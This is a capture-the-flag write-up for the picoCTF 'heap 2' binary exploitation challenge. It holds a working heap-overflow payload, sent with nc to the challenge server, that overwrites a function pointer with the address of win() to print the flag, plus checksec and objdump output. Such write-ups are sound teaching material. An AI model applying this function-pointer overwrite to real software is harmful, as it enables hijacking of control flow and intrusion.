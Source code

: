 # heap 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Can you handle function pointers?

## Approach ##

Binary and source are provided for this challenge.

Further modifications to the **[heap 0](../heap%200/heap%200.md)** and **[heap 1](../heap%201/heap%201.md)** challenge, this time replacing the `safe_var` global variable and associated buffer with a global variable named `x`, but still initialised with the string `"bico"` wihin `init()`.

`check_win()` that is invoked by menu item `4` when executing the program to print the flag now uses the value in `x` as a function pointer with signature `void x(void)`.

Given `x` is initialised with a value of `"bico"` attempting to execute the flag prior to any overflow attack results in a segmentation fault as the function pointer is obviously not valid.

Inspecting the provided source further we see a new `win()` function that reads and displays the contents of the `flag.txt` flag file. This function is not called from anywhere in the source.

So our aim is to make `x = &win()`, then use the print flag menu item.

Inspecting the provided binary architecture and security features enabled:

    $ checksec chall
    [*] 'picoCTF/heap-2/chall'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

Disassemble the biniary to obtain function addresses:

    $ objdump -M intel -d chall > chall.objdump.txt

Find the address of `win()` function :

    $ grep win chall.objdump.txt 
    00000000004011a0 <win>:
    00000000004011f0 <check_win>:

So we need to set the contents of `x` to `0x4011a0` to call our target `win()` functon.

Checking the offset of `x` from `input_data` using the provided `Print Heap` menu item to ensure our overflow attack payload hasn't changed from the previous challenges in the series.

    $ ./chall 

    I have a function, I sometimes like to call it, maybe you should change it

    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit

    Enter your choice: 1
    [*]   Address   ->   Value   
    +-------------+-----------+
    [*]   0xd606b0  ->   pico
    +-------------+-----------+
    [*]   0xd606d0  ->   bico

The offset remains 32 bytes, so no change to attack payload and we can just replace the `"pico"` of **[heap 1](../heap%201/heap%201.md)** with our target address.

## Solution ##

The final solution is to construct a payload that;
- Select menu item 2 "Write to Buffer" = `b'2\n'`
- Overflows the `input_data` buffer to reach the start of the `x` buffer by outputting 32 `A` characters = `b'A'*32`
- Continue the overflow to write the address of `win()` into `x` buffer, completing the input string to be written = `b'\xa0\x11\x40\x00\x00\x00\x00\x00\n`
- Select menu item 4 "Print Flag" to invoke `*x()` which equals `win()` = `b'4\n'`

When constructing the overflow attack payload I ran into issues with python3 unicode strings when constructing the address, as the conversion to UTF-8 encoding was addition addition bytes in the output. So the command was modified to use the more direct `sys.stdout.buffer.write()` function.

I included the full little-endian address of `win()` however this command will not output the null bytes as indicatd by the warning, but given the added null termination of the `scanf()` to our input we have successfully overwritten the contents of `x` with the valid address (lowest three bytes being non-zero).

    $ echo -e $(python3 -c "import sys; sys.stdout.buffer.write(b'2\n' + b'A'*32 + b'\xa0\x11\x40\x00\x00\x00\x00\x00\n4\n')") | nc mimas.picoctf.net 55335
    bash: warning: command substitution: ignored null byte in input
    
    I have a function, I sometimes like to call it, maybe you should change it
    
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: Data for buffer: 
    1. Print Heap
    2. Write to buffer
    3. Print x
    4. Print Flag
    5. Exit
    
    Enter your choice: picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
